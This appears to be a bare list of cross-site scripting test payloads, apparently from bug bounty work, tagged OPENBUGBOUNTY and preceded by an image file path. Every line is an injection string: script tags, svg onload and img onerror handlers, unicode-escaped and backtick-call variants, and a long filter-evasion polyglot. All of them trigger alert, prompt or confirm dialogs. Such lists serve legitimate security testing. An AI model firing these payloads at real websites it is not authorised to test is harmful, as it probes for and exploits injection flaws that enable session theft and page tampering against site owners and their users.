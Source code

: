 "><svg/onload=prompt(/OPENBUGBOUNTY/)>
'"--!><img src=x onerror=alert("OPENBUGBOUNTY")> 
'"/><svg/onload=prompt(/OPENBUGBOUNTY/)>
'"><script>alert("OPENBUGBOUNTY")</script>
'"><script>confirm("OPENBUGBOUNTY")</script>
'"><script>prompt("OPENBUGBOUNTY")</script>
'"><svg/onload=alert(/OPENBUGBOUNTY/)>
'"><svg/onload=confirm(/OPENBUGBOUNTY/)>
'"><svg/onload=prompt(/OPENBUGBOUNTY/)>
'>"/><svg/onload=prompt(/OPENBUGBOUNTY/)>
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<svg/onload=prompt(/OPENBUGBOUNTY/)>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("OPENBUGBOUNTY")//>\x3exss.txt

'"><svg/onload=prompt`1`>
'"><svg/onload=alert`1`>
'"><svg/onload=confirm`1`>
'"><script>alert`1`</script> 
><script>alert`1`</script> 
'"><svg onload=prompt`openbugbounty`>
'"><svg onload=alert`openbugbounty`>
'"><svg onload=confirm`openbugbounty`>
<!'/*!"/*!/'/*/"/*--!><Input/Autofocus/*/Onfocus=confirm`OPENBUGBOUNTY`//><Svg>/
'"><svg/onload=alert(/openbugbounty/)>
